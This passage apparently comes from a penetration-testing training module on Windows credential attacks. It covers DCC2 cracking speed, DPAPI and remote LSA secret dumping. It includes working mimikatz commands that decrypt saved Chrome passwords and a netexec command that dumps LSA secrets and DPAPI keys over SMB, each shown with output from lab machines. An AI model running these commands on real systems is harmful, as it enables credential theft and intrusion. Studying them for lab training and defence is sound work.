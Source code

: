 Note the cracking speed of `5536 H/s`. On the same machine, NTLM hashes can be cracked at `4605.4 kH/s`. This means that cracking DCC2 hashes is approximately `800 times slower`. The exact numbers will depend heavily on the hardware available, of course, but the takeaway is that strong passwords are often uncrackable within typical penetration testing timeframes.

## DPAPI

In addition to the DCC2 hashes, we previously saw that the `machine and user keys` for `DPAPI` were also dumped from `hklm\security`. The Data Protection Application Programming Interface, or [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection), is a set of APIs in Windows operating systems used to encrypt and decrypt data blobs on a per-user basis. These blobs are utilized by various Windows OS features and third-party applications. Below are just a few examples of applications that use DPAPI and how they use it:

<table><thead><tr><th width="238.54547119140625">Applications</th><th>Use of DPAPI</th></tr></thead><tbody><tr><td><code>Internet Explorer</code></td><td>Password form auto-completion data (username and password for saved sites).</td></tr><tr><td><code>Google Chrome</code></td><td>Password form auto-completion data (username and password for saved sites).</td></tr><tr><td><code>Outlook</code></td><td>Passwords for email accounts.</td></tr><tr><td><code>Remote Desktop Connection</code></td><td>Saved credentials for connections to remote machines.</td></tr><tr><td><code>Credential Manager</code></td><td>Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.</td></tr></tbody></table>

DPAPI encrypted credentials can be decrypted manually with tools like Impacket's [dpapi](https://github.com/fortra/impacket/blob/master/examples/dpapi.py), [mimikatz](https://github.com/gentilkiwi/mimikatz), or remotely with [DonPAPI](https://github.com/login-securite/DonPAPI).

```cmd-session
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
> Encrypted Key found in local state file
> Encrypted Key seems to be protected by DPAPI
 * using CryptUnprotectData API
> AES Key is: efefdb353f36e6a9b7a7552cc421393daf867ac28d544e4f6f157e0a698e343c

URL     : http://10.10.14.94/ ( http://10.10.14.94/login.html )
Username: bob
 * using BCrypt with AES-256-GCM
Password: April2025!
```

## Remote dumping & LSA secrets considerations

With access to credentials that have `local administrator privileges`, it is also possible to target LSA secrets over the network. This may allow us to extract credentials from running services, scheduled tasks, or applications that store passwords using LSA secrets.

### **Dumping LSA secrets remotely**

```shell-session
$ netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
```